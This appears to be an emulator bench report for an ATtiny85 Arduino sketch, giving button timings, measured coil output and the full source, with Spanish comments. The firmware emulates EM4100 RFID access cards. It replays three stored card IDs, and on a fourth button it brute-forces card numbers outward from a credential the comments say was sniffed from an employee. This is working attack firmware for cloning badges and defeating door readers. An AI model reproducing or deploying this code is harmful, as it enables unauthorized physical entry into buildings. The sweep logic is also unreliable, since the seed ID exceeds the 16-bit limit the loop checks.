
Bench run of a sketch on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH). Inputs (shaded band) come from the test bench; at power-on: PB1 (BTNS), PB2 (BTN_4), PB3 (BTNS), PB4 (BTNS) HIGH.

Above: at 1.2 s.
1.3 s: PB1 (BTNS) pulled LOW for 0.15 s
At 1.42 s:

3.0 s: PB2 (BTN_4) pulled LOW for 1 s
At 5.2 s:

6.0 s: PB3 (BTNS) pulled LOW for 1 s
At 6.84 s:

9.0 s: PB4 (BTNS) pulled LOW for 0.15 s
At 9.8 s:

10.7 s: PB1 (BTNS) pulled LOW for 1 s
At 10.82 s:

13.7 s: PB2 (BTN_4) pulled LOW for 0.15 s
At 14.6 s:

Timing chart, 0 to 16.4 s (numbered marks = the images above; inputs shaded):


Measured:
- after the input at 1.3 s, PB0 (COIL_PIN): 0/255 → 128/255 at once, → 0/255 0.16 s later
- after the input at 9.0 s, PB0 (COIL_PIN): 0/255 → 127/255 at once, → 0/255 0.16 s later
- after the input at 13.7 s, PB0 (COIL_PIN): 0/255 → 128/255 at once, → 0/255 0.16 s later

The sketch:

llavero_v4.ino
```cpp
// Emulador EM4100 - ATtiny85 @ 16MHz PLL
// PB0 (pin 5) -> resistencia 10k -> base 2N3904 -> bobina
// Pulsadores: PB1, PB2, PB3, PB4 -> GND (INPUT_PULLUP)
//
// BTN 1-3: emula tarjeta fija (igual que v2/v3)
// BTN 4:   ATAQUE DE EMISION SECUENCIAL
//          Barre el Card ID *hacia afuera* desde una credencial semilla
//          conocida (SEED_FAC/SEED_ID), probando primero los IDs mas
//          cercanos, que son los mas probables por el alta secuencial de
//          tarjetas. El facility code queda fijo (es por edificio/sede).
//
// Mejora sobre v3: v3 iteraba una lista hardcodeada. Aca el barrido es
// parametrico (semilla + radio) y en orden de probabilidad decreciente.

#define COIL_PIN    0   // PB0, pin fisico 5
#define BTN_1       3   // PB3, pin fisico 2
#define BTN_2       4   // PB4, pin fisico 3
#define BTN_3       1   // PB1, pin fisico 6
#define BTN_4       2   // PB2, pin fisico 7

#define HALF_BIT_US 256 // 16MHz PLL interno

// cuantas veces se repite cada credencial antes de pasar a la siguiente
// (la lectora necesita varias tramas para sincronizar y validar paridad)
#define REPS_PER_CARD 8

// *** CONFIGURAR ACA LOS 3 IDs FIJOS (BTN 1-3) ***
#define FAC_1  01
#define ID_1   1111

#define FAC_2  125
#define ID_2   64646

#define FAC_3  64
#define ID_3   12356
// *************************************************

// *** ATAQUE DE EMISION SECUENCIAL (BTN 4) ***
// Semilla: una credencial conocida (p.ej. sniffeada de un empleado).
#define SEED_FAC    64
#define SEED_ID     123456
// Radio del barrido: prueba SEED_ID-RADIO .. SEED_ID+RADIO
#define SWEEP_RADIUS 100
// *********************************************

struct Card {
  uint16_t facility;
  uint32_t id;
};

const Card CARDS[3] = {
  { FAC_1, ID_1 },
  { FAC_2, ID_2 },
  { FAC_3, ID_3 }
};

const uint8_t BTNS[4] = { BTN_1, BTN_2, BTN_3, BTN_4 };

int tag[64];

uint8_t parity_nibble(uint8_t nibble) {
  uint8_t p = 0;
  for (int i = 0; i < 4; i++) p ^= (nibble >> i) & 1;
  return p;
}

void build_em4100_frame(uint16_t facility, uint32_t id) {
  uint8_t data[4] = {
    (uint8_t)((facility >> 8) & 0xFF),
    (uint8_t)( facility       & 0xFF),
    (uint8_t)((id       >> 8) & 0xFF),
    (uint8_t)( id             & 0xFF)
  };

  uint8_t bytes[5] = { 0x06, data[0], data[1], data[2], data[3] };
  uint8_t col_par[4] = {0, 0, 0, 0};
  int idx = 0;

  for (int i = 0; i < 9; i++) tag[idx++] = 1;

  for (int b = 0; b < 5; b++) {
    uint8_t hi = (bytes[b] >> 4) & 0x0F;
    for (int i = 3; i >= 0; i--) {
      uint8_t bit = (hi >> i) & 1;
      tag[idx++] = bit;
      col_par[3 - i] ^= bit;
    }
    tag[idx++] = parity_nibble(hi);

    uint8_t lo = bytes[b] & 0x0F;
    for (int i = 3; i >= 0; i--) {
      uint8_t bit = (lo >> i) & 1;
      tag[idx++] = bit;
      col_par[3 - i] ^= bit;
    }
    tag[idx++] = parity_nibble(lo);
  }

  for (int i = 0; i < 4; i++) tag[idx++] = col_par[i];
  tag[idx++] = 0;
}

void send_manchester_bit(int bit) {
  int m = 1 ^ bit;
  digitalWrite(COIL_PIN, m ? LOW : HIGH);
  delayMicroseconds(HALF_BIT_US);
  digitalWrite(COIL_PIN, m ? HIGH : LOW);
  delayMicroseconds(HALF_BIT_US);
}

void send_frame() {
  for (int rep = 0; rep < 5; rep++) {
    for (int i = 0; i < 64; i++) {
      send_manchester_bit(tag[i]);
    }
  }
}

// Transmite una credencial REPS_PER_CARD veces, abortando si sueltan BTN 4.
// Devuelve false si se solto el boton (para cortar el barrido).
bool emit_card(uint16_t fac, uint32_t id) {
  build_em4100_frame(fac, id);
  for (int r = 0; r < REPS_PER_CARD; r++) {
    if (digitalRead(BTN_4) == HIGH) return false;
    send_frame();
    delay(10);
  }
  return true;
}

// Barrido secuencial hacia afuera desde la semilla:
// SEED_ID, SEED_ID+1, SEED_ID-1, SEED_ID+2, SEED_ID-2, ...
// Prueba primero los IDs mas cercanos (mas probables por alta secuencial).
void do_sequential_sweep() {
  // offset 0: la propia semilla
  if (!emit_card(SEED_FAC, SEED_ID)) return;

  for (int32_t off = 1; off <= SWEEP_RADIUS; off++) {
    int32_t up   = (int32_t)SEED_ID + off;
    int32_t down = (int32_t)SEED_ID - off;

    if (up <= 0xFFFF) {
      if (!emit_card(SEED_FAC, (uint32_t)up)) return;
    }
    if (down >= 0) {
      if (!emit_card(SEED_FAC, (uint32_t)down)) return;
    }
  }
}

void setup() {
  pinMode(COIL_PIN, OUTPUT);
  digitalWrite(COIL_PIN, LOW);
  for (int i = 0; i < 4; i++) {
    pinMode(BTNS[i], INPUT_PULLUP);
  }
}

void loop() {
  // BTN 1-3: tarjetas fijas
  for (int i = 0; i < 3; i++) {
    if (digitalRead(BTNS[i]) == LOW) {
      build_em4100_frame(CARDS[i].facility, CARDS[i].id);
      while (digitalRead(BTNS[i]) == LOW) {
        send_frame();
        delay(10);
      }
      digitalWrite(COIL_PIN, LOW);
      break;
    }
  }

  // BTN 4: ataque de emision secuencial
  if (digitalRead(BTN_4) == LOW) {
    do_sequential_sweep();
    digitalWrite(COIL_PIN, LOW);
  }
}
```
